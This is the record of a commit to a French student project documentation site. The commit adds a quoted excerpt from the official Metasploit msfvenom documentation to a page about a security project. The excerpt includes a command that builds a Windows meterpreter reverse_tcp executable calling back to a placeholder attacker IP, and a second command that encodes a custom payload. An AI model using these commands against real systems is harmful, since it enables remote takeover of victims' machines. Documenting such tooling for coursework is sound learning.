

Before and after one commit to FlagHunter01/school, an MkDocs documentation site: the page built from docs/cfa/projet/index.md, in a window 1280 px wide and 900 px high, scrolled down 20263 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 20692 px from its top, so only the background shows below that.

Commit message:
Ajout quote de la doc

```diff
--- a/docs/cfa/projet/index.md
+++ b/docs/cfa/projet/index.md
@@ -962,3 +962,31 @@ Error: The payload could not be generated, check options
 
 !!! failure "Toujours pas la bonne commande"
     On regarde la [doc officielle](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) pour affiner les options.
+
+    !!! quote "How to generate a payload"
+
+        To generate a payload, there are two flags that you must supply (-p and -f):
+
+            The -p flag: Specifies what payload to generate
+
+        To see what payloads are available from Framework, you can do:
+
+            ./msfvenom -l payloads
+
+        The -p flag also supports “-“ as a way to accept a custom payload:
+
+            cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
+
+        The -f flag specifies the format of the payload
+
+        Syntax example:
+
+            ./msfvenom -p windows/meterpreter/bind_tcp -f exe
+
+        To see what formats are supported, you can do the following to find out:
+
+            ./msfvenom --help-formats
+
+        Typically, this is probably how you will use msfvenom:
+
+            $ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```
